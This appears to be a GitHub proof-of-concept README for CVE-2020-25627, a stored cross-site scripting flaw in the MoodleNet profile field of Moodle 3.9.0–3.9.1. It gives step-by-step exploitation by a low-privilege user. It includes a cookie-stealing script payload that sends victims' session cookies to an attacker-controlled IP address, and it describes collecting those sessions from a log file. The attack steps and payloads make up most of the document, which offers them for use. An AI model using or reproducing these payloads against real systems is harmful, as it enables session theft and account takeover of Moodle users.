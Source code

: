# CVE-2020-25627
Stored XSS via moodlenetprofile parameter in user profile

My PoC about this CVE

User requirement: Student ( Or the site for registeration)

XSS in moodlenetprofile
```
Step 1: Log in with an authenticated user (Can register or through creating a new user without assigning roles )

Step 2: Quick access to Edit profile

domain/moodle/user/edit.php?id=<your user_id>&returnto=profile

In MoodleNet profile, add the script as:

<script>alert("HK")</script>

And save:

Step 3: Anytime, the other user goes to view your profile, the stored XSS will trigger.

Steal cookie via script:

<script>var i=new Image;i.src="http://192.168.0.238/xss.php?"+document.cookie;</script>

Change your domain and upload xss.php to your host:

https://github.com/HoangKien1020/pentest/tree/master/XSS

Done. You can view log.txt to get Moodle session.
```
![moodlenetprofile parameter](https://user-images.githubusercontent.com/24661746/122549897-3387b600-d05d-11eb-9adf-bfc783ddde63.png)


Affected version: 3.9.0 , 3.9.1

Source

https://moodle.org/mod/forum/discuss.php?d=410839

Impact about XSS (steal cookies,...), see here:

https://github.com/HoangKien1020/pentest/tree/master/XSS

